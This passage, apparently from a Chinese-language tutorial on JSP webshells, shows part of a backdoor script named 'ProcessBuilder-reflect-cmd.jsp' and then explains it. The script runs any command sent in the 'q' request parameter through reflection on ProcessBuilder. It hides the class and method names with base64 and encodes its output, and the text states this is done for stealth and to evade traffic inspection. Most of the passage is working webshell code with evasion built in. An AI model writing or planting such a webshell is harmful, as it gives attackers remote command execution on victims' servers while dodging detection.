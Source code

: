 ```jsp
        Process s = (Process) PB.getMethod(new String(decoder.decodeBuffer("c3RhcnQ="))).invoke(PB.getDeclaredConstructors()[0].newInstance(list));
        Scanner sc = new Scanner(s.getInputStream()).useDelimiter("\\A");
        String result = "";
        result = sc.hasNext() ? sc.next() : result;
        sc.close();
        return encoder.encode(result.getBytes("UTF-8"));
    }

%>

<%
    String name ="Input Nothing";
    String query = request.getParameter("q");
    if(query != null) {
        name = getPicture(query);
    }
%>

<pre>
<%= name %>
</pre>

</BODY>
</HTML>
```

ProcessBuilder-reflect-cmd.jsp脚本中，考虑到通用性、隐蔽性和对抗网页流量内容检测，用sun.misc包中的base64编码函数来处理了相关变量和内容。命令需要base64编码一下再提交，最后输出的内容需要base64解码：

![ProcessBuilder反射后门](ProcessBuilder-reflect-start.png)

其中关键的两行反射代码：

```java
Class PB = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlByb2Nlc3NCdWlsZGVy")));
Process s = (Process) PB.getMethod(new String(decoder.decodeBuffer("c3RhcnQ="))).invoke(PB.getDeclaredConstructors()[0].newInstance(list));
```

为了易于理解可以写成下面的示例代码供参考：
